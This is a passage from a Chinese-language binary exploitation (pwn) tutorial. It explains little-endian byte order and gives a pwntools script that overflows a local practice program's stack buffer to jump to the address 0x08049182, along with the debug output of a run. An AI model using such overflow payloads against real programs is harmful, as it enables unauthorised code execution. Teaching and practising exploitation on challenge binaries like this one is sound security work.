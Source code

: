 > 注:
>
> > 前面提到,在内存中,每个值按照字节存储.一般都是按照小端存储,所以0x08049182在内存中的形式为

```plain
\x82\x91\x04\x08
```

&emsp;&emsp;很明显,按照ASCII表,这几个字符是不可见的(0x82 0x91 0x04 0x08 这几个老哥在ascii表中的值请自行查看对照)

那么问题来了,怎么才能把这这种不可见字符输进去呢,莫非要买高级键盘?_?,这个时候我们就可以用pwntools了,pwntools是一个很好用的python2的库,专门帮你干坏事.

利用代码如下:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互

```

然后我们执行一下这个命令:

```sh
root@Aurora:/home/code/pwn/challenge/1 # ./a.py
[+] Starting local process './a': pid 10160
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  62 62 62 62  82 91 04 08  │aaaa│aaaa│bbbb│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x33 bytes:
    "Hello,I'm dyf.\n"
    '\n'
    'QAQ\n'
    '\n'
    'Do you have something to say?\n'
Hello,I'm dyf.

QAQ

Do you have something to say?
$ 
```
